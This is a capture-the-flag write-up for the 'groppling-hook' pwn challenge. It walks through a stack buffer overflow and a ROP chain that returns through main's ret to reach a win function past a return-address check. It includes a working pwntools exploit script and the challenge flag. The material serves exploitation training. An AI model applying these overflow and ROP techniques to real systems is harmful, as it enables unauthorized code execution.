






# groppling-hook

## Problem

<details>

<summary>Description</summary>

Gropple to safety?

`nc tjc.tf 31080`

</details>

## Solution

<figure><figcaption><p>checksec</p></figcaption></figure>

As the name suggest it most likely will be a ROP style challenge. Checksec reveals that the PIE and Canary protection is not found which will make our exploit easier. We're given a source code so let's check that out

<figure><figcaption><p>pwnable in source code</p></figcaption></figure>

One relevant function is this `pwnable` function, it tries to read a buffer of 56 bytes into a buffer size of 10, which a buffer overflow. We can calculate the offset by summing the size of buffer + 8 bytes of RBP which will give us 18 as our offset to overwrite the RIP to the `win` function. However there seem a check to our RIP that's being set. Lets decompile this in Ghidra to make it easier to read.

<figure><figcaption><p>decompiled pwnable</p></figcaption></figure>

It seems it check the boundaries for the RIP, if those conditions are applied then it will call `laugh()` which will exit the program and ruin our ROP exploit. If we see our `win` address we notice that it will satisfy the condition and thus will exit instead of calling the `win` function. &#x20;

<figure><figcaption><p>disassembled win</p></figcaption></figure>

To bypass this we chain our ROP instead return to straight to `win`, we can jump a ret address that doesn't satisfy the condition somewhere else and then ret to our `win`. Two ways  of doing is using the `ret;` gadget found by `ropper`, or we can simply return to the return instruction available in `main` and override that return to our `win` function since both of them doesn't satisfy any of the condition to call `laugh`

<figure><figcaption><p>ropper ret; gadget</p></figcaption></figure>

<figure><figcaption><p>disassembled main</p></figcaption></figure>

In the end I decided to utilise the return instruction in `main` to chain the ROP payload.


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './out'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = 'tjc.tf'
port = 31080

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main
'''.format(**locals())

io = start()

# =========================================================
#                         ADDRESSES
# =========================================================
# Got manually through cyclic gdb-pwndbg
offset = 18

# (0x401263 > unaff_retaddr > 0x40128a)  
main_ret = 0x40128a
win = 0x4011b3

# =========================================================
#                         EXPLOITS
# =========================================================
payload = flat({
    offset: [
        main_ret,
        win
    ]
})

io.sendlineafter(b'> ', payload)

io.interactive()
```


## Flag

> _**tjctf{this\_i#-my-questsss}**_
